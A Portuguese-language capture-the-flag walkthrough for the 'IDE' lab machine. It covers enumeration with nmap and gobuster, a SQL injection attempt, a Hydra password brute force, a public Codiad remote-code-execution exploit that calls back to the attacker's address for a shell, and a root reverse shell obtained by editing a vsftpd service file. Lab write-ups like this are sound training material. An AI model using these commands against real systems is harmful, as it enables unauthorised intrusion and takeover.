

# _**IDE CTF**_


## _**Enuemração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos login via FTP com o usuário **FTP**  
Temos também um website na porta 80  
Verificando o conteúdo do login FTP, não temos nenhum arquivo  
Vamos investigar o website e realizar um _brute force_ de diretórios com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/big.txt
> ```


Parece que não temos nada  
Tentamos realizar upload de arquivos via FTP, mas também sem sucesso  
Ainda desconfiado, voltei para realizar um scan com **Nmap**, mas desta vez, mais simples  
> ```bash
> nmap -p- [ip_address]
> ```

Descobrimos uma porta aberta com serviço desconhecido  
Investigando com um scan **Nmap**, parece ser um webserver com uma página de login  
E também temos um nome: Codiac 2.8.4


Vamos tentar um ```SQL Injection``` com: ```' || '1'='1';-- -```
Sem sucesso  
Buscando na Internet por exploits relacionados a Codiac, encontramos no GitHub a [CVE-2018-14009](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)  
Parece ser necessário um usuário e senha para poder executar este exploit  
Vamos voltar a investigar o website  

Após passar um tempo visitando diretórios e lendo arquivos, nada foi encontrado  
Voltando alguns passos, agora para o FTP, minha intuição estava dizendo que havia algo ali  
Investigando, foi encontrado um arquivo de nome (-), literalmente  
Algo fácil de passar despercebido  
Extraímos para noss computador e temos um usuário!  


Podemos utilizar <mark>Hydra</mark> para realizar _brute force_  
> ```bash
> hydra -l john -P /usr/share/wordlists/rockyou.txt [ip_address] -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username/Password"
> ```


Parece que temos muitas senhas!  
Vamos tentar algumas  
E ```password``` era a correta. Temos acesso!  
Agora que conhecemos sua senha, vamos utilizar-se do exploit encontrado para ganhar uma shell
> ```bash
> python3 [filename].py http://[ip_address]:62337/ john password [vpn_ip_address] [port] linux
> ```

Foram necessárias alterações no código base como
* colocar () em todos os _prints_
* na linha 23, alterar _content = response.read()_, para _content = response.content.decode()_
* na linha 105, alterar _ans = raw_input("[Y/n] ").lower()_, para _ans = input("[Y/n] ").lower()_


## _**Escalando privilégios**_
Primeiro, vamos transferir <mark>LinPeas</mark> para a máquina-alvo e executar  



Parece que encontramos credenciais de uso do usuário  
Vamos realizar _upgrade_ de nossa shell e entrar no usuário  
> ```bash
> python3 -c 'import pty, os; pty.spawn("/bin/bash")'
> ```


Como temos senha, vamos executar o comando ```sudo -l```  


Parece que podemos reiniciar o serviço **FTP** como _root_  
Vamos ver se temos permissão para editar o arquivo _.vsftpd.config_  
Com um simples ```ls -la```, verificamos que é possível!  
Podemos então editar e executar nosso shell reverso  
Assim, quando reiniciarmos o vsftpd como root, obteremos um shell reverso como root  
Alteramos o arquivo com ```nano```, utilizamos o comando ```systemctl daemon-reload``` para gravar as alterações e por fim, executamos ```/usr/sbin/service vsftpd restart```  


Agora, basta ir atrás das flags!
